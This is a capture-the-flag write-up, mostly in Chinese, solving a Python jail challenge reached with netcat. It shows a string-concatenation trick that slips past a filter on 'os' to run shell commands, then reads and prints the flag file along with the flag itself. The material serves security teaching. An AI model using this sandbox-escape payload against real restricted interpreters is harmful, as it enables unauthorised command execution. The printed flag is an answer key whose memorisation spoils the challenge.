 # I want to break free

*I want to break free... from this Python jail. nc 143.198.184.186 45457*

---
使用`'o'+'s'`绕过对os的过滤,执行ls命令,发现存在文件`cf7728be7980fd770ce03d9d937d6d4087310f02db7fcba6ebbad38bd641ba19.txt`

```shell
~$ nc 143.198.184.186 45457

    You are in jail. Can you escape?

> __builtins__.__import__('o'+'s').system('ls')
bin
blacklist.txt
boot
cf7728be7980fd770ce03d9d937d6d4087310f02db7fcba6ebbad38bd641ba19.txt
dev
etc
home
jail.py
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
None
```

读取文件内容

```shell
> print(__builtins__.open('cf7728be7980fd770ce03d9d937d6d4087310f02db7fcba6ebbad38bd641ba19.txt').read())
kqctf{0h_h0w_1_w4n7_70_br34k_fr33_e73nfk1788234896a174nc}

None
```

**flag:**`kqctf{0h_h0w_1_w4n7_70_br34k_fr33_e73nfk1788234896a174nc}`
